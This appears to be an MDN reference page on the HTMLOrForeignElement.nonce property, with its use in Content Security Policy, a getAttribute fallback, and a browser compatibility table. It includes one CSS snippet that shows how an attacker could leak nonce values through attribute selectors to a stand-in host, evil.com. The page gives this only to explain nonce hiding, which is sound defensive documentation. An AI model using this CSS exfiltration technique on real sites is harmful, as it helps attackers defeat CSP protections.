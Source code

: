 HTMLOrForeignElement.nonce
==========================

The `nonce` property of the [`HTMLOrForeignElement`](../htmlorforeignelement) mixin returns the cryptographic number used once that is used by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) to determine whether a given fetch will be allowed to proceed.

In later implementations, elements only expose their `nonce` attribute to scripts (and not to side-channels like CSS attribute selectors).

Examples
--------

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use `getAttribute` as a fallback:

    let nonce = script['nonce'] || script.getAttribute('nonce');

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`script['nonce']`) will be the only way to access nonces.

Nonce hiding helps preventing that attackers exfiltrate nonce data via mechanisms that can grab data from content attributes like this:

    script[nonce~=whatever] {
      background: url("https://evil.com/nonce?whatever");
    }

Specifications
--------------

<table><thead><tr class="header"><th>Specification</th></tr></thead><tbody><tr class="odd"><td><a href="https://html.spec.whatwg.org/multipage/#attr-nonce">HTML Living Standard<br />
<span class="small">The definition of 'nonce' in that specification.</span></a></td></tr></tbody></table>

Browser compatibility
---------------------

Desktop

Mobile

Chrome

Edge

Firefox

Internet Explorer

Opera

Safari

WebView Android

Chrome Android

Firefox for Android

Opera Android

Safari on IOS

Samsung Internet

`nonce`

61

79

75

No

48

10

The property is defined only for its useful elements: `<link>`, `<script>`, and `<style>`; it is undefined for all other elements.

61

61

79

45

10

The property is defined only for its useful elements: `<link>`, `<script>`, and `<style>`; it is undefined for all other elements.

8.0

See also
--------

-   [`nonce` global attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/nonce)
-   [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
-   CSP: [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)

<a href="https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/nonce" class="_attribution-link">https://developer.mozilla.org/en-US/docs/Web/API/HTMLOrForeignElement/nonce</a>

